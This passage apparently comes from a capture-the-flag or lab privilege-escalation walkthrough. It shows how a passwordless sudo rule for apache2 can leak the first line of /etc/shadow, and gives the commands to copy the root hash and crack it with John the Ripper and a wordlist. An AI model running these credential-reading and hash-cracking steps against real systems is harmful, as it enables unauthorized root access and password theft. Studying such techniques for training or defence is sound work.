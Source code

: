 - - - 
## (root) NOPASSWD: /usr/sbin/apache2 :
we can't use this to abuse the system and get root.
This is also not available on GTFOBins.
But we can use this to read the first line af any sensitive files.

```sh
sudo apache2 -f /etc/shadow
```

copy the hash. Move to your Local Machine.

```sh
nano hashes
```

paste_your_hash

Then Crack it.

```sh
john --format=sha512crypt --wordlist=/opt/rockyou.txt hashes
```

- - -
